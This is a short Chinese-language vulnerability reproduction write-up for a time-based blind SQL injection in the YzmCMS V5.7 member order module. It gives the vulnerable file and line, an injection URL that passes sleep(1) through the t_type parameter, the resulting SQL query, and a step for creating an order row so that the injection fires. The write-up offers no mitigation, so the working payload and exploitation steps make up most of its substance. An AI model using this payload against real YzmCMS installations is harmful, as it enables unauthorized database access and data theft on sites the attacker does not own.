




YzmCMS V5.7 用户模块时间盲注
============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.7

三、复现过程
------------

`application/member/controller/order.class.php`:76行

这里直接拼接了where条件，type这里就有问题

构造url

    http://www.0-sec.org/member/order/order_search.html?of=id&or=DESC&dosubmit=1&&t_type=sleep(1)

调试跟一下可以看到如果传入的是数组会手动拆分进行预编译处理，但是我们这里是str
不是数组 所以就直接跳过处理

直接带入数据库，完成sleep

看了下语句发现这里利用的时候有一个小问题，首先这里是查数据数，在该表没数据的情况下是不会sleep的，所以要先在yzm\_order中插入一条数据。

    SELECT COUNT(*) AS total FROM `yzmcms` . `yzm_order` WHERE 1=1 AND `type` = sleep(1);

使用在线充值，会产生一条订单的数据

在没有配置支付的情况下会报错，但是这个订单是创建了。

这样就可以执行sleep了

时间注入

参考链接
--------

> https://xz.aliyun.com/t/7985\#toc-1
